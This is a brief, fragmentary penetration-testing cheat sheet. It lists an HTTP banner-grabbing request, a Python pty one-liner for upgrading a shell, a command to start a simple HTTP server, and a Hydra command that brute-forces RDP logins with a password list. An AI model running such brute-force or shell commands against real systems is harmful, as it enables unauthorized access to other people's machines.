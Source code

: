 #### Banner Grabbing HTTP:
GET / HTTP/1.1
Host: 192.168.0.10
User-Agent: SPOOFED-BROWSER
Referrer: 255S-wolf.com

##### Python:
python -c ‘import pty;pty.spawn(“/bin/bash”)’
python -m SimpleHTTPServer (Starting HTTP Server)

##### Brute force with Hydra:
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp (Self Explanatory)
